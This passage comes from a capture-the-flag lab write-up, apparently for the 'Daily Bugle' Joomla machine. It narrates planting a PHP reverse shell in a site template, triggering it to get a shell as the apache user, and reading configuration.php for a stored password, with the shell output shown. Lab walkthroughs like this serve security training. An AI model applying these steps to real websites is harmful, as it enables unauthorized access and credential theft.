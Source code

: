 I navigated to the templates on the site and picked the first one. 

![](/assets/img/20210227201115.png)

![](/assets/img/20210227201143.png)

My plan was to upload the PHP Reverse Shell but that didn't work. 

![](/assets/img/20210227201203.png)

I didn't spend much time on it but instead created a new page called hello.php and pasted in the reverse  shell code. 

![](/assets/img/20210227201229.png)

I then browsed to that page http://10.10.151.238/templates/beez3/hello.php and was able to get a shell as the apache user. 

```
connect to [10.2.2.175] from (UNKNOWN) [10.10.151.238] 39208
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:49:12 up 24 min,  0 users,  load average: 0.00, 0.02, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
sh-4.2$ 
```


I had a look around for other users but did not have permission to view. 

```
bash-4.2$ cd home
bash-4.2$ ls
jjameson
bash-4.2$ cd jjameson
bash: cd: jjameson: Permission denied
```

I naviagated to the web folder and checked the configuration file which happened to contain a password.

```
bash-4.2$ bash-4.2$ pwd
/var/www/html
bash-4.2$ ls     
LICENSE.txt    cli                includes   media       tmp
README.txt     components         index.php  modules     web.config.txt
administrator  configuration.php  language   plugins
bin            htaccess.txt       layouts    robots.txt
cache          images             libraries  templates
bash-4.2$ cat configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
```